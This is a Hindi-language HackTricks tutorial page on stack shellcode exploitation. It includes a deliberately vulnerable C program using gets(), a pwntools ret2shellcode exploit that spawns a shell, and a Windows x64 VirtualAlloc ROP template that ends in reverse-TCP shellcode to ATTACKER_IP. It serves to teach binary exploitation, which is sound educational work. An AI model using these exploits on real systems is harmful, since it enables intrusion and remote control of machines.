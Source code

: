 # Stack Shellcode

{{#include ../../../banners/hacktricks-training.md}}

## बुनियादी जानकारी

**Stack shellcode** एक तकनीक है जो **binary exploitation** में इस्तेमाल होती है, जहाँ एक हमलावर vulnerable प्रोग्राम के stack पर shellcode लिखता है और फिर Instruction Pointer (IP) या Extended Instruction Pointer (EIP) को इस shellcode के पते पर बदल देता है, जिससे वह execute हो जाता है। यह लक्ष्य सिस्टम पर अनधिकृत पहुँच प्राप्त करने या arbitrary commands execute करने का एक क्लासिक तरीका है। नीचे प्रक्रिया का विवरण दिया गया है, जिसमें एक सरल C उदाहरण और यह दिखाया गया है कि आप Python के साथ **pwntools** का उपयोग करके संबंधित exploit कैसे लिख सकते हैं।

### C उदाहरण: एक कमजोर प्रोग्राम

आइए एक सरल कमजोर C प्रोग्राम के उदाहरण से शुरू करें:
```c
#include <stdio.h>
#include <string.h>

void vulnerable_function() {
char buffer[64];
gets(buffer); // Unsafe function that does not check for buffer overflow
}

int main() {
vulnerable_function();
printf("Returned safely\n");
return 0;
}
```
यह प्रोग्राम `gets()` फ़ंक्शन के उपयोग के कारण एक buffer overflow के प्रति vulnerable है।

### कम्पाइल करना

विभिन्न सुरक्षा व्यवस्थाओं को अक्षम करते हुए (एक vulnerable environment का अनुकरण करने के लिए), आप इस प्रोग्राम को कम्पाइल करने के लिए निम्नलिखित कमांड का उपयोग कर सकते हैं:
```sh
gcc -m32 -fno-stack-protector -z execstack -no-pie -o vulnerable vulnerable.c
```
- `-fno-stack-protector`: Stack protection को अक्षम करता है।
- `-z execstack`: Stack को executable बनाता है, जो कि stack पर संग्रहित shellcode को execute करने के लिए आवश्यक है।
- `-no-pie`: Position Independent Executable को अक्षम करता है, जिससे यह अनुमान लगाना आसान हो जाता है कि हमारे shellcode का memory address कहाँ स्थित होगा।
- `-m32`: प्रोग्राम को 32-bit executable के रूप में compile करता है, जो अक्सर exploit development में सरलता के लिए उपयोग किया जाता है।

### Python Exploit using Pwntools

यहाँ बताया गया है कि आप Python में **pwntools** का उपयोग करके एक **ret2shellcode** attack कैसे लिख सकते हैं:
```python
from pwn import *

# Set up the process and context
binary_path = './vulnerable'
p = process(binary_path)
context.binary = binary_path
context.arch = 'i386' # Specify the architecture

# Generate the shellcode
shellcode = asm(shellcraft.sh()) # Using pwntools to generate shellcode for opening a shell

# Find the offset to EIP
offset = cyclic_find(0x6161616c) # Assuming 0x6161616c is the value found in EIP after a crash

# Prepare the payload
# The NOP slide helps to ensure that the execution flow hits the shellcode.
nop_slide = asm('nop') * (offset - len(shellcode))
payload = nop_slide + shellcode
payload += b'A' * (offset - len(payload))  # Adjust the payload size to exactly fill the buffer and overwrite EIP
payload += p32(0xffffcfb4) # Supossing 0xffffcfb4 will be inside NOP slide

# Send the payload
p.sendline(payload)
p.interactive()
```
This script constructs a payload consisting of a **NOP slide**, the **shellcode**, and then overwrites the **EIP** with the address pointing to the NOP slide, ensuring the shellcode gets executed.

The **NOP slide** (`asm('nop')`) is used to increase the chance that execution will "slide" into our shellcode regardless of the exact address. Adjust the `p32()` argument to the starting address of your buffer plus an offset to land in the NOP slide.

## Windows x64: Bypass NX with VirtualAlloc ROP (ret2stack shellcode)

आधुनिक Windows पर stack non-executable (DEP/NX) होता है। stack-resident shellcode को stack BOF के बाद भी execute कराने का एक सामान्य तरीका यह है कि एक 64-bit ROP chain बनाया जाए जो module की Import Address Table (IAT) से VirtualAlloc (या VirtualProtect) को कॉल करे ताकि stack का एक region executable बनाया जा सके और फिर chain के तुरंत बाद जोड़ी गई shellcode में return किया जा सके।

Key points (Win64 calling convention):
- VirtualAlloc(lpAddress, dwSize, flAllocationType, flProtect)
- RCX = lpAddress → वर्तमान stack में कोई address चुनें (उदा., RSP) ताकि newly allocated RWX region आपके payload के साथ overlap करे
- RDX = dwSize → आपकी chain + shellcode के लिए पर्याप्त बड़ा (उदा., 0x1000)
- R8  = flAllocationType = MEM_COMMIT (0x1000)
- R9  = flProtect = PAGE_EXECUTE_READWRITE (0x40)
- Return directly into the shellcode placed right after the chain.

Minimal strategy:
1) Leak a module base (e.g., via a format-string, object pointer, etc.) to compute absolute gadget and IAT addresses under ASLR.
2) Find gadgets to load RCX/RDX/R8/R9 (pop or mov/xor-based sequences) and a call/jmp [VirtualAlloc@IAT]. If you lack direct pop r8/r9, use arithmetic gadgets to synthesize constants (e.g., set r8=0 and repeatedly add r9=0x40 forty times to reach 0x1000).
3) Place stage-2 shellcode immediately after the chain.

Example layout (conceptual):
```
# ... padding up to saved RIP ...
# R9 = 0x40 (PAGE_EXECUTE_READWRITE)
POP_R9_RET; 0x40
# R8 = 0x1000 (MEM_COMMIT) — if no POP R8, derive via arithmetic
POP_R8_RET; 0x1000
# RCX = &stack (lpAddress)
LEA_RCX_RSP_RET    # or sequence: load RSP into a GPR then mov rcx, reg
# RDX = size (dwSize)
POP_RDX_RET; 0x1000
# Call VirtualAlloc via the IAT
[IAT_VirtualAlloc]
# New RWX memory at RCX — execution continues at the next stack qword
JMP_SHELLCODE_OR_RET
# ---- stage-2 shellcode (x64) ----
```
एक सीमित gadget set के साथ, आप register values को अप्रत्यक्ष रूप से तैयार कर सकते हैं, उदाहरण के लिए:
- mov r9, rbx; mov r8, 0; add rsp, 8; ret → r9 को rbx से सेट करें, r8 को शून्य करें, और स्टैक को एक junk qword से समायोजित करें।
- xor rbx, rsp; ret → rbx को वर्तमान stack pointer से seed करें।
- push rbx; pop rax; mov rcx, rax; ret → RSP-derived value को RCX में move करें।

Pwntools खाका (दिए गए known base और gadgets के साथ):
```python
from pwn import *
base = 0x7ff6693b0000
IAT_VirtualAlloc = base + 0x400000  # example: resolve via reversing
rop  = b''
# r9 = 0x40
rop += p64(base+POP_RBX_RET) + p64(0x40)
rop += p64(base+MOV_R9_RBX_ZERO_R8_ADD_RSP_8_RET) + b'JUNKJUNK'
# rcx = rsp
rop += p64(base+POP_RBX_RET) + p64(0)
rop += p64(base+XOR_RBX_RSP_RET)
rop += p64(base+PUSH_RBX_POP_RAX_RET)
rop += p64(base+MOV_RCX_RAX_RET)
# r8 = 0x1000 via arithmetic if no pop r8
for _ in range(0x1000//0x40):
rop += p64(base+ADD_R8_R9_ADD_RAX_R8_RET)
# rdx = 0x1000 (use any available gadget)
rop += p64(base+POP_RDX_RET) + p64(0x1000)
# call VirtualAlloc and land in shellcode
rop += p64(IAT_VirtualAlloc)
rop += asm(shellcraft.amd64.windows.reverse_tcp("ATTACKER_IP", ATTACKER_PORT))
```
टिप्स:
- VirtualProtect समान तरीके से काम करता है यदि किसी existing buffer को RX बनाना बेहतर हो; पैरामीटर क्रम अलग होता है।
- यदि stack space तंग है, तो stack को फिर से उपयोग करने की बजाय RWX कहीं और allocate करें (RCX=NULL) और उस नए region पर jmp करें।
- ऐसे gadgets जिनसे RSP बदलता है (e.g., add rsp, 8; ret) हमेशा ध्यान में रखें और बीच में junk qwords डालें।

- [**ASLR**](../../common-binary-protections-and-bypasses/aslr/index.html) **should be disabled** ताकि address executions के बीच भरोसेमंद रहे; अन्यथा जिस address पर function store होगा वह हमेशा एक सा नहीं होगा और आपको यह पता लगाने के लिए कुछ leak चाहिए होगा कि win function कहाँ लोड है।
- [**Stack Canaries**](../../common-binary-protections-and-bypasses/stack-canaries/index.html) को भी disabled होना चाहिए वरना compromised EIP return address कभी follow नहीं होगा।
- [**NX**](../../common-binary-protections-and-bypasses/no-exec-nx.md) **stack** protection shellcode के stack के अंदर execution को रोक देगा क्योंकि वह region executable नहीं होगा।

## अन्य उदाहरण और संदर्भ

- [https://ir0nstone.gitbook.io/notes/types/stack/shellcode](https://ir0nstone.gitbook.io/notes/types/stack/shellcode)
- [https://guyinatuxedo.github.io/06-bof_shellcode/csaw17_pilot/index.html](https://guyinatuxedo.github.io/06-bof_shellcode/csaw17_pilot/index.html)
- 64bit, ASLR के साथ stack address leak, shellcode लिखें और उस पर jump करें
- [https://guyinatuxedo.github.io/06-bof_shellcode/tamu19_pwn3/index.html](https://guyinatuxedo.github.io/06-bof_shellcode/tamu19_pwn3/index.html)
- 32 bit, ASLR के साथ stack leak, shellcode लिखें और उस पर jump करें
- [https://guyinatuxedo.github.io/06-bof_shellcode/tu18_shellaeasy/index.html](https://guyinatuxedo.github.io/06-bof_shellcode/tu18_shellaeasy/index.html)
- 32 bit, ASLR के साथ stack leak, exit() कॉल रोकने के लिए comparison, किसी variable को एक value से overwrite करना और shellcode लिखकर उस पर jump करना
- [https://8ksec.io/arm64-reversing-and-exploitation-part-4-using-mprotect-to-bypass-nx-protection-8ksec-blogs/](https://8ksec.io/arm64-reversing-and-exploitation-part-4-using-mprotect-to-bypass-nx-protection-8ksec-blogs/)
- arm64, ASLR नहीं, ROP gadget से stack को executable बनाकर stack में मौजूद shellcode पर jump करना


## संदर्भ

- [HTB Reaper: Format-string leak + stack BOF → VirtualAlloc ROP (RCE)](https://0xdf.gitlab.io/2025/08/26/htb-reaper.html)
- [VirtualAlloc documentation](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc)

{{#include ../../../banners/hacktricks-training.md}}
